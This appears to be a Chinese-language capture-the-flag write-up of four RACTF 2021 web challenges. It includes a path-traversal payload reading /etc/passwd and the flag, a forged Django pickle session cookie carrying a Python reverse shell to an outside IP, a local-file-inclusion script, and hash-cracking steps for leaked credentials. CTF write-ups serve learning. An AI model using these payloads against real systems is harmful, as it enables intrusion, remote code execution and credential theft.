




# RACTF 2021

## Really Awesome Hidden Service

> *2021/08/17*

### 题目

题目是一道关于**暗网**的问题


首先给了一个连接`ractfysfo3ncuhk5nwzou5mpwmwqrc6ll6ubogd4eotvuhrbr4hcpsid.onion`，明显是一个暗网地址，访问一下，发现一个很正常的网页


有问题的是`favicon.ico`，将网站图标下载下来，可以通过脚本计算它的`mmh3`哈希，得到`-915494641`；然后去`shodan.io`搜索`http.favicon.hash:-915494641`，就会出现两个ip，访问任意一个即可得到`flag`


### payload

```python
import base64
import mmh3

with open('favicon.ico', 'rb') as file:
    favicon = base64.encodebytes(file.read())
    hash = mmh3.hash(favicon)
    print(hash)
```

## emoji book

> *2021/08/17*

### 题目

进去之后是一个页面


页面很简洁，类似于一个展板，主要是django框架实现的，源码也给了

```python
# forms.py
import json
import re

from django import forms
from django.forms import Textarea

from notes.models import Note


class NoteCreateForm(forms.ModelForm):
    class Meta:
        model = Note
        fields = ["name", "body"]
        widgets = {
            "body": Textarea(attrs={"cols": 60, "rows": 20}),
        }

    def __init__(self, *args, **kwargs):
        self.user = kwargs.pop("user")
        super(NoteCreateForm, self).__init__(*args, **kwargs)

    def save(self, commit=True):
        instance = super(NoteCreateForm, self).save(commit=False)
        instance.author = self.user
        instance.body = instance.body.replace("{{", "").replace("}}", "").replace("..", "")

        with open("emoji.json") as emoji_file:
            emojis = json.load(emoji_file)

            for emoji in re.findall("(:[a-z_]*?:)", instance.body):
                instance.body = instance.body.replace(emoji, "{{" + emojis[emoji.replace(":", "")] + ".png}}")

        if commit:
            instance.save()
            self._save_m2m()

        return instance

```

```python
# views.py
import base64
import os
import re

from django.contrib.auth.forms import UserCreationForm
from django.contrib.auth.models import User
from django.http import HttpRequest, HttpResponse, HttpResponseRedirect
from django.shortcuts import render, get_object_or_404
from django.urls import reverse
from django.views.generic import CreateView

from notes.forms import NoteCreateForm
from notes.models import Note


class RegisterFormView(CreateView):
    template_name = "registration/register.html"
    form_class = UserCreationForm
    model = User
    success_url = "/"


def home(request: HttpRequest) -> HttpResponse:
    if request.user.is_authenticated:
        notes = Note.objects.filter(author=request.user)
        return render(request, "index.html", {"user": request.user, "notes": notes})
    return render(request, "index.html", {"user": request.user})


def create_note(request: HttpRequest) -> HttpResponse:
    if request.method == "POST":
        form = NoteCreateForm(request.POST, user=request.user)
        if form.is_valid():
            instance = form.save()
            return HttpResponseRedirect(redirect_to=reverse("note", kwargs={"pk": instance.pk}))
    else:
        form = NoteCreateForm(user=request.user)
    return render(request, "create.html", {"form": form})


def view_note(request: HttpRequest, pk: int) -> HttpResponse:
    note = get_object_or_404(Note, pk=pk)
    text = note.body
    for include in re.findall("({{.*?}})", text):
        print(include)
        file_name = os.path.join("emoji", re.sub("[{}]", "", include))
        with open(file_name, "rb") as file:
            text = text.replace(
                include, f"")

    return render(request, "note.html", {"note": note, "text": text})
```

代码的主要逻辑都在这里，如何展示一个`emoji`表情，而代码的主要漏洞就在`forms.py`中的`save`函数中`instance.body = instance.body.replace("{{", "").replace("}}", "").replace("..", "")`会以先后顺序进行替换，如果我们以`{..{}..}`就能包含入括号，而我们包含的文件，就会以`base64`的形式写入图片，先尝试读取`/etc/passwd`


可以成功读取，读取`/flag.txt`

### payload

```
{..{/flag.txt}..}
```


## emoji book 2

> *2021/08/30*

### 题目

这道题与上道题环境完全一致，但是上道题由于权限控制的原因，导致可以直接读取`flag`，而这道题不能直接包含，所以我们要寻找其他方案

我们可以先读取`settings.py`


代码如下

```python
"""
Django settings for notebook project.

Generated by 'django-admin startproject' using Django 3.2.6.

For more information on this file, see
https://docs.djangoproject.com/en/3.2/topics/settings/

For the full list of settings and their values, see
https://docs.djangoproject.com/en/3.2/ref/settings/
"""

from pathlib import Path

# Build paths inside the project like this: BASE_DIR / 'subdir'.
BASE_DIR = Path(__file__).resolve().parent.parent


# Quick-start development settings - unsuitable for production
# See https://docs.djangoproject.com/en/3.2/howto/deployment/checklist/

# SECURITY WARNING: keep the secret key used in production secret!
SECRET_KEY = 'wr`BQcZHs4~}EyU(m]`F_SL^BjnkH7"(S3xv,{sp)Xaqg?2pj2=hFCgN"CR"UPn4'

SESSION_ENGINE = "django.contrib.sessions.backends.signed_cookies"
SESSION_SERIALIZER = "django.contrib.sessions.serializers.PickleSerializer"
LOGIN_REDIRECT_URL = "/"
LOGOUT_REDIRECT_URL = "/"

# SECURITY WARNING: don't run with debug turned on in production!
DEBUG = False

ALLOWED_HOSTS = ["193.57.159.27"]


# Application definition

INSTALLED_APPS = [
    'notes.apps.NotesConfig',
    'django.contrib.admin',
    'django.contrib.auth',
    'django.contrib.contenttypes',
    'django.contrib.sessions',
    'django.contrib.messages',
    'django.contrib.staticfiles',
]

MIDDLEWARE = [
    'django.middleware.security.SecurityMiddleware',
    'django.contrib.sessions.middleware.SessionMiddleware',
    'django.middleware.common.CommonMiddleware',
    'django.middleware.csrf.CsrfViewMiddleware',
    'django.contrib.auth.middleware.AuthenticationMiddleware',
    'django.contrib.messages.middleware.MessageMiddleware',
    'django.middleware.clickjacking.XFrameOptionsMiddleware',
]

ROOT_URLCONF = 'notebook.urls'

TEMPLATES = [
    {
        'BACKEND': 'django.template.backends.django.DjangoTemplates',
        'DIRS': [BASE_DIR / 'templates']
        ,
        'APP_DIRS': True,
        'OPTIONS': {
            'context_processors': [
                'django.template.context_processors.debug',
                'django.template.context_processors.request',
                'django.contrib.auth.context_processors.auth',
                'django.contrib.messages.context_processors.messages',
            ],
        },
    },
]

WSGI_APPLICATION = 'notebook.wsgi.application'


# Database
# https://docs.djangoproject.com/en/3.2/ref/settings/#databases

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.sqlite3',
        'NAME': BASE_DIR / 'db.sqlite3',
    }
}


# Password validation
# https://docs.djangoproject.com/en/3.2/ref/settings/#auth-password-validators

AUTH_PASSWORD_VALIDATORS = [
    {
        'NAME': 'django.contrib.auth.password_validation.UserAttributeSimilarityValidator',
    },
    {
        'NAME': 'django.contrib.auth.password_validation.MinimumLengthValidator',
    },
    {
        'NAME': 'django.contrib.auth.password_validation.CommonPasswordValidator',
    },
    {
        'NAME': 'django.contrib.auth.password_validation.NumericPasswordValidator',
    },
]


# Internationalization
# https://docs.djangoproject.com/en/3.2/topics/i18n/

LANGUAGE_CODE = 'en-us'

TIME_ZONE = 'UTC'

USE_I18N = True

USE_L10N = True

USE_TZ = True


# Static files (CSS, JavaScript, Images)
# https://docs.djangoproject.com/en/3.2/howto/static-files/

STATIC_URL = '/static/'

# Default primary key field type
# https://docs.djangoproject.com/en/3.2/ref/settings/#default-auto-field

DEFAULT_AUTO_FIELD = 'django.db.models.BigAutoField'
```

其中我们可以发现非常关键的`SECRET_KEY`，而且还有该环境的`session`序列化采用的是`pickle`库，可以联系到`django`框架之前出现的`session`反序列化漏洞，能得到一个`shell`

> `windows`和`linux`的`pickle`是跨平台的，但是`os`模块并不是跨平台的



但是我们并没有权限去访问该文件，但是可以发现他的用户组属于`admin`，访问`/etc/passwd`和`/etc/shadow`还有`/etc/group`


从中可以发现，`admin`属于`flag`组，以及`admin`相关的密码信息，`john`爆破



利用改密码提权拿到`flag`


### payload

```python
from django.core.signing import TimestampSigner, b64_encode
from django.utils.encoding import force_bytes
from django.conf import settings
import pickle
import os
import requests


class PickleRCE(object):
    def __reduce__(self):
        return (os.system, (
            """python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("144.34.245.238",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'""",
        ))


SECRET_KEY = 'wr`BQcZHs4~}EyU(m]`F_SL^BjnkH7"(S3xv,{sp)Xaqg?2pj2=hFCgN"CR"UPn4'
settings.configure(DEFAULT_HASHING_ALGORITHM='sha256')


def rotten_cookie():
    key = force_bytes(SECRET_KEY)
    print('key:'+str(key))
    salt = 'django.contrib.sessions.backends.signed_cookies'
    pick = pickle.dumps(PickleRCE(), protocol=0)
    print(pick)
    base64d = b64_encode(pick).decode()
    print('base64d: '+str(base64d))
    return TimestampSigner(key, salt=salt).sign(base64d)


forge_sessionid = rotten_cookie()
print(forge_sessionid)
r = requests.get('http://193.57.159.27:42585',
                 cookies={'sessionid': forge_sessionid})
print(r.status_code)
```

## I'm a fan

> *2021/09/01*

### 题目

这道题是一个上传文件，但是跟上传文件那个按钮没太大关系，他上传文件的接口大概是这样

```js
async function uploadContent(e) {
    let n = new FormData();
    a = e.files[0];
    n.append("file", a);
    n.append("source", "external");
    const r = new AbortController();
    try {
    	...
        await fetch("/upload/content", { method: "POST", body: n, signal: r.signal });
      	....
}
```

其实这个`source`参数就很奇怪，他的值为`external`，那是不是我们可以重写该接口包含一个内部文件

```js
async function LFI(inp){
    let fd = new FormData();
    fd.append("file", inp);
    fd.append("source", "internal");
    const ctrl = new AbortController()

    try {
      displayMDCSnackbar("Uploading Video, please wait", 10000)
       let req = await fetch('/upload/content',
        {method: "POST", body: fd, signal: ctrl.signal}).then(resp => resp.json()).then(data => displayMDCSnackbar(data.message, 4000));
       setTimeout(function(){location = ''}, 4000);
    } catch(e) {
      setTimeout(function(){location = ''}, 4000);
      displayMDCSnackbar("Upload Failed: " + e, 4000)
    }
}
```

在`Chrome`的控制台去执行这段代码


等待一段时间，这个页面就会更新



可以看到`/etc/passwd`显示到我们的视频里面，接下来的话，目标就是登录服务器，而我们的服务器是` gunicorn`的，这个是一个 **WSGI HTTP** 服务器

> **WSGI**：全称是 **Web Server Gateway Interface**，**WSGI **不是服务器，python模块，框架，API或者任何软件，只是一种规范，描述 **web server** 如何与 **web application** 通信的规范

而这时候我们就需要去读取一些，可能会出现的一些`python`文件，如`app.py`



可以发现有一个`EXCLUDE_FILE`是`uploads/note.txt`，包含它继续查看


可以看到有两串密码，用的是`Argon2id`算法

- `$argon2id$v=19$m=102400,t=2,p=8$WmI1xK/4Z1fiLj20O2fDpA$7Oy7WAp9gERzT/T5RlDXCw`

- `$argon2id$v=19$m=102400,t=2,p=8$vZaZ9D3ERgo/DOnoNvQkEA$IOxfMIF7cgKbnHalTLU9uA`

可以使用工具`Argon2_Cracker`，或者有弱密码字典，写个脚本爆破也可以，密码分别为`password`和`qwertyuiop`，题干中说`This challenge also has something on port 27830/tcp`，我们直接用`admin`+`passwordqwertyuiop`登录


我们现在需要提权，而该主机的`/etc/shadow`我们并不能直接访问，可能是因为`Alpine linux`。那我们就需要搜索提权需要的东西，如

- 敏感文件
- `SUID/SGID`的文件
- ....

> 一般来说，可以先找属于自己用户组的文件

在`/etc`下有一个`shadow-backup.bak`，可以得到文件，再用`john/hashcat`爆破，得到密码`ubisoft`


再去根目录下，即可得到`flag`


### payload

```js
async function LFI(inp){
    let fd = new FormData();
    fd.append("file", inp);
    fd.append("source", "internal");
    const ctrl = new AbortController()

    try {
      displayMDCSnackbar("Uploading Video, please wait", 10000)
       let req = await fetch('/upload/content',
        {method: "POST", body: fd, signal: ctrl.signal}).then(resp => resp.json()).then(data => displayMDCSnackbar(data.message, 4000));
       setTimeout(function(){location = ''}, 4000);
    } catch(e) {
      setTimeout(function(){location = ''}, 4000);
      displayMDCSnackbar("Upload Failed: " + e, 4000)
    }
}
```

```python
import os
import io
from argon2 import PasswordHasher

ph = PasswordHasher()
#hash = ph.hash("s3kr3tp4ssw0rd")
hash = '$argon2id$v=19$m=102400,t=2,p=8$WmI1xK/4Z1fiLj20O2fDpA$7Oy7WAp9gERzT/T5RlDXCw'
print(ph.verify(hash, "password"))
```

